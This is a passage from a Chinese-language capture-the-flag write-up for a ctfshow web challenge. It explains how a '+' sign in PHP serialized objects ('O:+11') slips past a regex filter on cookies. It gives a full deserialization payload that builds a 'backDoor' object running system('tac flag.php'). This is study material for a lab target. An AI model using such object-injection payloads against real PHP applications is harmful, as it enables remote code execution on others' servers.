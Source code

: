 和上一题一样，但是过滤了cookie中的O:[0-9]和C:[0-9]，防止对象被反序列化

这是个wordpress经典的漏洞，原理是在处理序列化字符串时，遇到+就退出序列处理，所以形如O:+8和O:8都能够被 unserialize，且结果相同。我们就可以利用这个姿势绕过正则匹配并同时保证43行能够执行反序列化

``payload：O:+11:"ctfShowUser":1:{s:5:"class";O:+8:"backDoor":1:{s:4:"code";s:23:"system('tac flag.php');";}}``

记得url编码

## web259

